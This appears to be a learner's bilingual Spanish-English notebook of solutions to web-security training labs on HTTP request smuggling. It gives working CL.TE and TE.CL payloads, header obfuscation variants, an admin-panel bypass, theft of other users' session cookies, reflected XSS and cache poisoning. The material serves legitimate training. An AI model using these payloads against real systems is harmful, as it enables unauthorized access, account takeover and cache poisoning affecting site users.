


# know how laboratories http request smuggling


## Lab: HTTP request smuggling, basic CL.TE vulnerability

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

Nos dicen que hace falta que la siguiente petición sea GPOST

Lo que hacemos es ver las peticiones y la idea es que entendiendo que será una petición post la siguiente coger y poner un 0 para que termine y luego una G, para que aparezca en la siguiente petición delante del Post, siendo Gpost.

```html
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Transfer-Encoding: chunked

0

G
```


Respuestas:

1.  El Content-Lenght parece que es indiferente

2.  Únicamente añadiendo funciona, no hay que borar más nada.


3.  el connection no es necesario

4. Al menos en este caso no es necesario el Content-Type


5. Borrando todo lo único necesario es poner el POST , el Content-Length, y el encoding. Y aún así el content-length te lo pone automáticamente burpsuite. 
 
🟢🟢 Únicamente deberíamos de haber puesto el Transfer-Encoding: chunked el 0 , la G y el PoST . El content-lenght debe de aparecer pero está automático, si se desaciva habría que escribirlo.


## Lab: HTTP request smuggling, basic TE.CL vulnerability

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.


⚠️ Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.


1. Cambiamos a post
2. El host dejamos el mismo, que es el de nuestro laboratorio
3. Content-Length tiene que ser manual El tamaño definiará
4. El Encodign está claro chunked
5. el primer número es el número de byte que contará y será en hexadecimal, hay que contar desde el principio del número

⚠️ Queremos que empiece a contar desde el primer caracter hasta el 0


El 19 es el 13 en hexadecimal pero queremos que pare justo antes del 0 por lo que será el 12

```html
Content-length: 4
Transfer-Encoding: chunked

12
GPOST / HTTP/1.1

0
```

## Lab: HTTP request smuggling, obfuscating the TE header

This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

Usaremos lo mismo que en el apartado anterior pero veremos las diferentes opciones de ofuscacion del encoded hasta que demos con una.

```html
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
```html
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

12
GPOST / HTTP/1.1

0
```


## Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.

Tenemos que hacer que aparezca el Get /404

He dejado activo en repeater el content-lenght automático y solo puse el TE el 0 y el Get /404 HHTP/1.1 como aparece en los apuntes pero más reducido.

```html
Content-Length: 28
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
```


## Lab: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.

1. Al tratarse de una vulnerabilidad del tipo TE.CL es necesario desactivar de burpsuite el content-length automático.
2. Tenemos que enviar un POST al tener body
3. La url a la que queremos llegar es GET /404 HHTP/1.1

En uno de los laboratorios anteriores buscábamos lo mismo buscando que apareciese GPOST / HTTP/1.1

Ahora es exactamente lo mismo sino que aumentamos el tamaño y cambiamos a GET /404 HTTP/1.1 . Empecé por 12 sabiendo que iba a ser menos y aumenté a 13, 14 y ya funcionó

```html
Content-length: 4
Transfer-Encoding: chunked

14
POST /404 HTTP/1.1

0

```


## Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.

1. I need to smuggle a request for access in admin, when see de admin screen , copy delete carlos url 
2. smuggle to execute delete carlos


Get Admin url , only put Post and the always payload
add Transfer-Encoding: chunked , content-lenght automatic, and 0 . Then put url admin. 
🔥 Important🔥  the request had a closeconection after request, you nedd delete this

```html
Transfer-Encoding: chunked
Content-Length: 28

0

GET /admin HTTP/1.1
```


Now only need change the url to /admin/delete?username=carlos

```html
Transfer-Encoding: chunked
Content-Length: 28

0

GET /admin/delete?username=carlos HTTP/1.1
```
If you can see , when you start the request, the server responds with unauthorized. This problem its caused for not host in the second request. You can try with lab url but i used localhost

🔥 Important🔥 You need add host if you meet with autorithation error. You can try with localhost or other host


## Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.

In this lab, the methodolgy its similar to the previous one, but this time we need to use the content lenght and this structure.

```html
Content-length: 4
Transfer-Encoding: chunked

12
GPOST / HTTP/1.1

0
```
🔥 sometimes the labs crush and you need restart. You can try send home page to repeater and launch request againt. if run , the laboratorie its ok and if not run i recomend to restart the lab.

```html
Content-length: 4
Transfer-Encoding: chunked

23
POST /admin HTTP/1.1

0
```
if you know the size moreunless you cant try changing manual. But you can use character count.


Then you can encode the number to hex.

Try with 15 character


With 16


🔥 the request can wad used for other user , for this you can try many times

In this moment, we are unauthorized , we need insert Host and localhost , but this process do that we need return to count character.

```html
Content-length: 4
Transfer-Encoding: chunked

29
POST /admin HTTP/1.1
HOST: localhost

0
```

Count 41 in hext is  29 , finally i need used 27


```html
Content-length: 4
Transfer-Encoding: chunked

3d
GET /admin/delete?username=carlos HTTP/1.1
HOST: localhost

0
```


## Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting
#getheaders

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

There's an admin panel at /admin, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the X-Forwarded-For header but has a different name.

To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user carlos.

  - Not run chunked encoding
  - /admin but onlye access from 127.0.0.1
  - Front-end adds http header with ip
  - similar x-forwarded-for

what need to do?
- reveals the header that is added by front-end server
- then request to backend include header and acces to the admin panel
- delete carlos

We need do that the backend add in the input , for example search , the headers from last request. The back-end fill the headers lost.


If the second Content-Length its very small , we dont see the header but if its very long, the server work very time and will not showing.

```html
Content-Length: 78
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Length: 80
Connection: close

search=test
```

Now we can add admin url with the headers lost, in this case its . remember , the lab description say that only get access since 127.0.0.1 
```html
X-czZcag-Ip: 213.194.174.242
```

```html
Content-Length: 52
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
X-czZcag-Ip: 127.0.01

```
🔥 you need add below two empty lines or text

🔥 In this case Content Lenght its automatic


Now we can add deletecarlos url for complete the laboratorie


## Lab: Exploiting HTTP request smuggling to capture other users' requests
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.


The post content for user in the coments
```html
csrf=B4ciXu084vdcNLxXhDJF3uV0uyT5G6zY&postId=3&comment=adf&name=adfa&email=malo%40aa.com&website=https%3A%2F%2Fmarca.com
```

Our notes

```html

GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

🔥 Si no pongo el contentype no me funciona porque me dice que el mail está mal, es posible que cambiando el formato si funcione.

🔥 Importantísimo , el código se escribirá en el mensaje y sabemos que cuando llega un ```&``` se pierde ya la información, por lo que tiene que estar el mensaje al final.

```html
POST / HTTP/1.1
Host: 0a15004103ca840dc0e19ac30058004f.web-security-academy.net
Content-Length: 252
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 800
Cookie: session=cHkfiQlhs24uUdPxRNDta56vKSM9N0kX

csrf=pDq2oUsJSZARUyszYOX4ao2ub440NtF9&postId=7&name=adsfa&email=malo%40aa.com&website=&comment=a
```



En este caso el la session es la misma que la mia porque he sido yo quien ha entrado, hay que esperar un poco hasta que aparezca el de otra persona.

Hemos esperado un poco pero al parecer se corta el mensaje, tenemos que aumentar el content lenght, lo haré primero a 850


En esta ocasión solo nos sale la nuestra y no ha rellenado con las cookies, hay que seguir probando 


Ahora vamos al logueo y utilizaremos el csrf y el cookie que hemos obtenido de en el texto.
```html
Cookie: 
cHkfiQlhs24uUdPxRNDta56vKSM9N0kX
7iwRebFtcv1GbJaV005S8vX6D7ExW
7iwRebFtcv1GbJaV005S8vX6D7ExWcJY
```
y el csrf de nuestra petición

Vamos a login y capturamos con burpsuite cambiamos el csrf y el token y ponemos nuestro usuario y debe de entrar.


Al final ha sido 843


Es de los laboratorios quemás me ha costado sacar

Tuve que hacer varios y estar un buen rato hasta que saliese la cookie


## Lab: Exploiting HTTP request smuggling to deliver reflected XSS
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the User-Agent header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes alert(1).

1. We need run xss in our browser. 
2. Use http request smmugling with de xss


View input user agent, we use this with "><script>alert(1)</script>


If we update quickly we can view the alert in our browser

```html
POST / HTTP/1.1
Host: 0a30007004205bbdc09a23000075000a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length:150
Transfer-Encoding: chunked

0

GET /post?postId=10 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

X=1

```


Ater several attempts we solved the lab

## expert lab: Lab: Exploiting HTTP request smuggling to perform web cache poisoning

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.

To solve the lab, perform a request smuggling attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server. The poisoned cache should alert document.cookie.

- Server dont support chuked encodign
- front-end cofigured to cache certain responses
- javascript to exploit the server
- cache should alert document.cookie

When we click in next post we can see that the header its diferent. call to location.



We can try changuing host with smuggling for view if change location

```html
POST / HTTP/1.1
Host: 0ad30066037fd99cc09c586d00a700af.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length:150
Transfer-Encoding: chunked

0

GET /post?postId=10 HTTP/1.1
HOST: we need url exploit
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

X=1
```

We will create a simple exploit


Change name to post and application to text


The problem with this its if i use exploit in my server only write alert(document.cookie), we need add javascript library to request. I need search where its 

We can see js


We need send with content lenth more on less than 148


Ok, we find the content-lenght 


Now only wait or send several times the request


- the user its clicking
- 

its posible that the problem its in javascript?


🔥 you need see user its clicking by the log and the exploit run when the website do rare things.

I needed add more numbers to content-length until we view the weirds things


```html
POST / HTTP/1.1
Host: 0ad30066037fd99cc09c586d00a700af.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length:187
Transfer-Encoding: chunked

0

GET /post/next?postId=6 HTTP/1.1
Host: exploit-0a05009e032fd916c068587a01ed00d4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

X=1

GET /resources/js/tracking.js HTTP/1.1
Host: 0ad30066037fd99cc09c586d00a700af.web-security-academy.net
Connection: close
```


## Expert Lab: Exploiting HTTP request smuggling to perform web cache deception

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is caching static resources.

To solve the lab, perform a request smuggling attack such that the next user's request causes their API key to be saved in the cache. Then retrieve the victim user's API key from the cache and submit it as the lab solution. You will need to wait for 30 seconds from accessing the lab before attempting to trick the victim into caching their API key.

You can log in to your own account using the following credentials: wiener:peter

- API key to be saved in the cache
- Then retrieve the victim user's API key from the cache and submit it as the lab solution
- You will need to wait for 30 seconds from accessing the lab before attempting to trick the victim into caching their API key

Get access with wiener and peter pass


🔥Observe that the response doesn't have any anti-caching headers.

Sent very times the request

```
POST / HTTP/1.1
Host: 0ab8001b04c9cc92c0f22a54006c00fb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore: X
```


- Load page in incognito browser windows


We need send other request , the time is limit

Then we need open search in burpsuite and set "Your API key", There are many request, you need search in the response "your api key" and then you copy the distint your api key 


